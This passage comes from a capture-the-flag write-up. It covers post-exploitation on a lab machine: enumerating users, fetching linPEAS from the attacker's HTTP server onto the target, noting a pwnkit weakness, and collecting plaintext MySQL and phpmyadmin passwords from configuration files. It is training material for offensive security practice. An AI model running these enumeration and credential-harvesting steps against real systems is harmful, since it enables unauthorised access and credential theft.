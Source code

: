 I take a quick look in the **/home** directory to see which users are out there but cannot access the one user who does show up:

```
ww-data@internal:/$ cd /home
www-data@internal:/home$ ls
aubreanna
www-data@internal:/home$ cd aubreanna/
bash: cd: aubreanna/: Permission denied
```

<br>

## System Enumeration

I transfer over **linPEAS** via a python http.server adn then wget the file onto the system and make it executable:

`python3 -m http.server 80`

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.65.114 - - [09/Feb/2022 11:43:23] "GET /linpeas.sh HTTP/1.1" 200 -
```

`chmod +x linpeas.sh`

The system is vulnerable to **pwnkit** but since this box was created before that vulnerability was discovered I don't feel like using it accomplishes anything in the learning department and skip that.

The only users with a shell are the **aubreanna** we saw earlier and **root**. And `id aubreanna` shows:

```
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

So no `sudo -l` for us this round.

**linPEAS** is able to find credentials to a **MySQL** database as well as the **phpmyadmin** site:

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );

$dbpass='B2Ud4fEOZmVq';
$dbuser='phpmyadmin';
```

<br>

## Database Digging

Let's see what we can find in those databases. I start with **phpmyadmin** and login with the credentials we found:
